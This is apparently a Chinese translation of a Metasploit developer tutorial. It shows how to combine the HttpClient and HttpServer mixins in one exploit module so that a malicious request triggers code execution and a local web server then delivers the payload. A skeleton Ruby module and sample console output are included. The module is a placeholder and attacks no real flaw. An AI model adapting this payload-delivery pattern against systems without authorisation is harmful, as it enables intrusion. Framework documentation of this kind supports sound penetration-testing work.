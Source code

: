 在Metasploit模块中使用多个网络mixin总是一件棘手的事情，因为很可能会碰到重叠的数据存储选项，变量，方法等问题.超级调用仅适用于一个mixin等。这被认为是高级的模块开发，有时可能是相当痛苦地弄清自己的。为了改善Metasploit的开发体验，我们举几个例子来演示常见的场景，需要使用多个mixin来实现开发。

### 今天的课程：发送HTTP请求来攻击目标机器，并使用HttpServer来传送负载。
假设您想要利用Web服务器或Web应用程序。你可以代码执行，但你需要找到一种方式来提供最终的有效载荷（可能是一个可执行文件），而HTTP服务器恰好是你的选择。
这里是你如何设置它：
```ruby

##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HttpServer::HTML

  def initialize(info={})
    super(update_info(info,
      'Name'           => "HttpClient and HttpServer Example",
      'Description'    => %q{
        This demonstrates how to use two mixins (HttpClient and HttpServer) at the same time,
        but this allows the HttpServer to terminate after a delay.
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'sinn3r' ],
      'References'     =>
        [
          ['URL', 'http://metasploit.com']
        ],
      'Payload'        => { 'BadChars' => "\x00" },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', {} ],
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Dec 09 2013",
      'DefaultTarget'  => 0))

      register_options(
        [
          OptString.new('TARGETURI', [true, 'The path to some web application', '/']),
          OptInt.new('HTTPDELAY',    [false, 'Number of seconds the web server will wait before termination', 10])
        ], self.class)
  end

  def on_request_uri(cli, req)
    print_status("#{peer} - Payload request received: #{req.uri}")
    send_response(cli, 'You get this, I own you')
  end

  def primer
    print_status("Sending a malicious request to #{target_uri.path}")
    send_request_cgi({'uri'=>normalize_uri(target_uri.path)})
  end

  def exploit
    begin
      Timeout.timeout(datastore['HTTPDELAY']) { super }
    rescue Timeout::Error
      # When the server stops due to our timeout, this is raised
    end
  end
end
```
以下是运行上述示例时发生的情况：

1.封装在Timeout块的超级调用将启动Web服务器。
2.在Web服务器处于无限循环状态之前，会调用primer()方法,这是您发送恶意请求以获取代码执行的地方。
3.您的HttpServer根据请求提供最终的有效载荷
4.10秒后，模块引发超时异常。Web服务器终止。

如果你想知道为什么Web服务器必须在一段时间后终止，这是因为如果模块无法在目标机器上执行代码执行，显然它永远不会询问你的Web服务器的恶意负载，所以没有意义永远保持活动.通常情况下，获得有效载荷请求也不需要很长时间，所以我们保持了超时。
上例的输出应该如下所示：

```
msf exploit(test) > run
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.1.76:4444 
[*] Using URL: http://0.0.0.0:8080/SUuv1qjZbCibL80
[*]  Local IP: http://10.0.1.76:8080/SUuv1qjZbCibL80
[*] Server started.
[*] Sending a malicious request to /
msf exploit(test) >
[*] 10.0.1.76        test - 10.0.1.76:8181 - Payload request received: /SUuv1qjZbCibL80
[*] Server stopped.

msf exploit(test) >
```

### 相关文章：

* https://github.com/rapid7/metasploit-framework/wiki/How-to-Send-an-HTTP-Request-Using-HTTPClient
* https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer
* https://community.rapid7.com/community/metasploit/blog/2012/12/17/metasploit-hooks
